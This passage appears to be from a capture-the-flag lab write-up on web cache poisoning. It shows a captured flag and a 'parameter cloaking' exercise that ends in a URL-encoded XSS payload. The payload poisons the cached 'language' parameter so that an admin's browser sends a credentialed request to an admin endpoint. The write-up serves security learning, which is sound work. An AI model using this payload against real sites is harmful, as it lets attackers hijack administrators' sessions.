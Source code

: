 !Flag delivered:  HTB{6f4c51837d8148cb8dc66beb14003706} 
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231224022446.png)

### Exercise Web Cache 2(Parameter Cloaking )

This is the original request, the hint says the admin will visit /?language=de, so we need to poison this parameter appending a=b;language=payload.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/wcp/Pasted%20image%2020231224024231.png)

```bash
Payload:?language=de&a=b;language=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest()%3bxhr.open(%27GET%27,%20%27/admin?reveal_flag=1%27,%20true)%3bxhr.withCredentials%20=%20true%3bxhr.send()%3b%3C/script%3E
```